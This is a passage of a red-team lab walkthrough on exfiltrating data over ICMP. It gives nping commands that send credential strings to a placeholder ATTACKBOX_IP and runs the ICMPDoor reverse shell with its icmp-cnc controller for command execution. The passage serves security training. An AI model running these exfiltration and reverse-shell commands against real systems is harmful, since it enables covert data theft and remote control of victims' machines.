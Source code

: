 Let's start sending the required data and the end of the file trigger value from the ICMP machine.

`thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"`

`thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"`

`thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"`

Let's check our AttackBox once we have done sending the data and the ending trigger value.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/24.PNG)

Nice! We have successfully transferred data over the ICMP protocol using the Metasploit Framework. You can check the loot file mentioned in the terminal to confirm the received data.

Next, we will show executing commands over the ICMP protocol using the ICMPDoor tool. ICMPDoor is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier in this task, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/25.png)

We have prepared the tools needed for C2 communication over the ICMP protocol on `JumpBox` and the `ICMP-Host machines`. First, we need to log in to the ICMP machine,`icmp.thm.com`, and execute the icmpdoor binary as follows,

`thm@icmp-host:~$ sudo icmpdoor -i eth0 -d 192.168.0.133`

Note that we specify the interface to communicate over and the destination IP of the server-side.

Next, log in to the `JumpBox` and execute the `icmp-cnc` binary to communicate with the victim, our ICMP-Host. Once the execution runs correctly, a communication channel is established over the ICMP protocol. Now we are ready to send the command that needs to be executed on the victim machine. 

`thm@jump-box$  sudo icmp-cnc -i eth1 -d 192.168.0.121`
